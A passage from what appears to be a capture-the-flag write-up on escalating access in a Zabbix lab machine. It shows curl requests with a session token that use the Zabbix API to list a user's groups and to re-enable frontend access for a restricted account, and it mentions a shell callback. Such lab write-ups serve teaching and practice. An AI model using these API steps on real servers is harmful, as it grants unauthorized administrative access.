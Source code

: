 If I click 0xdf, I get a callback. I'll need to use the two shell
solution again, just like above.

### Path 4 - Change Users Via API

Once authenticated (see [API Overview](#api-overview) for details),
there are several ways I could use the API to enable GUI admin access:

-   Enable GUI access for zapper
-   Add guest to admin group
-   Create a new user that's admin

All of these tasks would involve the [user
api](https://www.zabbix.com/documentation/3.0/manual/api/reference/user).

#### Enable GUI for Zapper

I can use the
[usergroup.get](https://www.zabbix.com/documentation/3.0/manual/api/reference/usergroup/get)
api to get a list of the groups that zapper is in:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.get", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"userids": "3"}}' | jq '.'
    {
      "jsonrpc": "2.0",
      "result": [
        {
          "usrgrpid": "12",
          "name": "No access to the frontend",
          "gui_access": "2",
          "users_status": "0",
          "debug_mode": "0"
        }
      ],
      "id": 1
    }



I can see that frontend access is banned, at `"gui_access": "2"`. I'll
change that:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"usrgrpid": "12", "gui_access": "0"}}' | jq -c '.'
    {"jsonrpc": "2.0","result": {"usrgrpids": ["12"]},"id": 1}



Now zapper can log into the GUI, and do everything admin could do above.
I can set it back once I'm in:



